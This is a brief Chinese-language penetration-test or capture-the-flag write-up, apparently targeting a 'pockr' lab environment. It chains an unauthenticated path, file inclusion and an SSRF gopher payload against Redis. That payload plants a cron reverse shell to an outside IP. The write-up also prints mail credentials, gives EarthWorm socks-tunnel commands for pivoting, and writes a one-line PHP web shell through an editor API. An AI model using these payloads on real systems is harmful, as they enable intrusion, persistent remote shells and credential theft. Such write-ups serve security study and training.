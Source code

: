 ctrl+U 可以发现有路径直接写在了页面上 可以未授权访问
进入配置页面后 发现疑似文件包含 尝试了一下可以 包含了所有知道的文件
发现有一个redis的配置 配合api存活功能能ssrf打redis
```http
-- payload
gopher%3a%2f%2finner.redis.com%3a6379%2f_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/123.206.203.108/7591 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
```
data目录下有1.py 敏感信息
```
mail_host = "oa.pockr.com"  # 设置服务器
mail_port = 25
mail_user = "pockr"  # 用户名
mail_pass = "pockr"  # 口令
sender = 'test@pockr.org'
```
自己的服务器: ./ew -s rcsocks -l 1080 -e 8888
redis服务器: ./ew -s rssocks -d 123.206.203.108 -e 8888
浏览器代理访问 oa.pockr.com
账号密码弱口令 pockr pockr123
写shell
```
http://oa.pockr.com/index.php?m=api&f=getModel&moduleName=editor&methodName=save&params=filePath=../../www/aaa.php
fileContent=<?php $_POST[1]($_POST[2]);
```
